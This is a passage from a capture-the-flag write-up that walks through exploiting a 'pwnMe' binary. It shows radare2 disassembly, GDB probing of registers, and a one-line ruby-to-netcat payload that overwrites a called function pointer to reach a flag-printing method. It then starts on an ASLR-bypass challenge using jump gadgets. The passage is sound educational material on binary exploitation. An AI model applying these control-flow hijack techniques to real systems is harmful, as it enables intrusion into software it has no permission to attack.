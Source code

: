     [...]
         0x00400ce5      4883ec10       sub rsp, 0x10
         '           0x00400ce9      8b05d1132000   mov eax, dword [rip + 0x2013d1] ; [0x6020c0:4]=0x4700352e LEA obj.bearOffset ; ".5" @ 0x6020c0
         '           0x00400cef      4898           cdqe
         '           0x00400cf1      488b04c5e020.  mov rax, qword [rax*8 + obj.pointers] ; [0x6020e0:8]=0x322e382e3420 LEA obj.pointers ; " 4.8.2" @ 0x6020e0
         '           0x00400cf9      488945f0       mov qword [rbp - local_10h], rax
         '           0x00400cfd      488b45f0       mov rax, qword [rbp - local_10h]
         '           0x00400d01      8b4014         mov eax, dword [rax + 0x14] ; [0x14:4]=1
         '           0x00400d04      83f803         cmp eax, 3
         '       ,=< 0x00400d07      7511           jne 0x400d1a
         '       '   0x00400d09      488b45f0       mov rax, qword [rbp - local_10h]
         '       '   0x00400d0d      488b00         mov rax, qword [rax]
         '       '   0x00400d10      488945f8       mov qword [rbp - local_8h], rax
         '       '   0x00400d14      488b45f8       mov rax, qword [rbp - local_8h]
         '       '   0x00400d18      ffd0           call rax
         '       '   ; JMP XREF from 0x00400d07 (sym.pwnMe)
         '       `-> 0x00400d1a      bf00000000     mov edi, 0
         \           0x00400d1f      e8ecfaffff     call sym.imp.exit</pre>

At the position 0x00400d18 a method with its address in $RAX is called. Interesting, let's make a shortcut - instead of reversing we start a debugger and look how we can influence the targeted register. There is a compare statement at 0x00400d04 which we have to pass, so we need the value 3 in EAX at this point. For a closer look we put a break point there and create a brown bear (because brown bears are the most awesome animals on earth, this was the first thing I created). Inside GDB we do the following:

    b* 0x00400d04
    run
    3 # choose bears
    2 # choose a brown bear
    ABCDEFGHKL # give the animal some name
    info registers # look at EAX/RAX

We notice EAX has the value two. Trying different animals we state that the second input (brown bear) is what is copied into EAX. The only possible combination is to take Sumatran Tiger (input is two, then three). Again we give it a name with handy letters and rerun the program inside the debugger. It throws a segfault when executing "call RAX" and *surprise*, *surprise* the value of RAX is  0x4847464544434241 at this point. In Little Endian this stands for "ABCDEFGH". We own control flow. But where to go to? We again execute _afl_ shortcut in radare2 to find a method named "l33tH4x0r". The method we have to jump to is called printFlag(), like in the first challenge. So in summary, we choose a tiger (value two), then a Sumatran tiger (value 3), choose the name of our tiger to be the address of l33tH4x0r method as a 64bit value. And finally choose 4919 (0x1337).

    ruby -e 'print("\x32\n\x33\n\x0d\x09\x40\x00\x00\x00\x00\x00\x00\n4919\n")' ' netcat $IP $PORT

## PWN - Especially Good Jmps

The 75 points needed some more effort to invest into exploitation but not to find the vulnerability itself. The challenge text already states that we will have to bypass ASLR on the server. The name good Jmps already suggests exploitation techniques. As we know a reliable jump to our shellcode can be done through Assembly gadgets which points to our stack. So if you control the Instruction Pointer, you still put your shellcode after the Saved IP but to jump there you can't use the address since you don't know it. To check the theory we use Tobias Klein's checksec:
